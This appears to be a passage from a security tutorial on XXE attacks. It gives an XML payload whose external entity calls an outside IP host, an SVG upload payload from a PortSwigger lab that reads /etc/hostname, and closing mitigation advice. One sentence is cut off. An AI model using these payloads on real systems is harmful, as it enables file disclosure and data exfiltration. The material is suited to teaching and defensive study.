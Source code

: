 ```ruby
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

### File Upload
XXE can be performed using the file upload method. We will be demonstrating this using Port Swigger lab “Exploiting XXE via Image Upload”. The payload that we will be using is:

```ruby
<?XML version="1.0" standalone="yes"?>
<!DOCTYPE reset [
<!ENTITY xxe SYSTEM "file:///etc/hostname"> ] >
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="40" x="0" y="100">&xxe;</text>
</svg>
```
Understanding the payload: We will be making an SVG file as only image files are accepted by the upload area. The basic syntax of the SVG file is given above and in that, we have added a text field that will

We will be saving the above code as “payload.svg”. Now on portswigger, we will go on a post and comment and then we will add the made payload in the avatar field.



---

## 🔎 How To Find

Detect any xml data parsing or json and try to inject **XXE**

---

## ⚙ Mitigation 

The best way to avoid XXE vulnerabilities is to
* Completely disable document type definitions (DTDs) in your XML parser. 
* If this is not possible, you must disable external entities and external document type declarations for your parser.
* disable support for `XInclude`

---